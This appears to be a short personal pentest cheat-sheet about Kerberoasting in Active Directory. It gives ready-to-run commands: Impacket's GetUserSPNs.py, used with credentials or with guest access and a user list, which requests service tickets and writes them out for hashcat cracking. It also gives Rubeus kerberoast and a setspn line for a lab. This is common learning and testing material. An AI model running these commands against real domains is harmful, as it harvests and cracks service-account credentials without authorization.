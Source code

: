 **Kerberoasting** is an attack method used in Active Directory environments where an attacker targets service accounts. It works by requesting and then cracking the service account’s Kerberos ticket (TGS—Ticket Granting Service). E.g MySQL, HTTP, FTP.... etc

![[Pasted image 20240726224839.png]]

The attack:

```bash
GetUserSPNs.py domain.local/USER:PASSWORD@x.x.x.xP {-dc-ip} x.x.x.x -request -outputfile kerb.hashcat
```

If you have guest access with no password, and you have a list of users, this attack might work:

```bash
GetUserSPNs.py domain.local/guest -usersfile users.txt -request -outputfile kerb.hashcat -dc-ip x.x.x.x -no-pass
```

Kerberoasting (from computer on the domain):
```powershell
.\Rubeus.exe kerberoast /nowrap
```

Create an SPN:

```cmd
setspn -s HTTP/iis.mylab.local mylab\svc_iis
```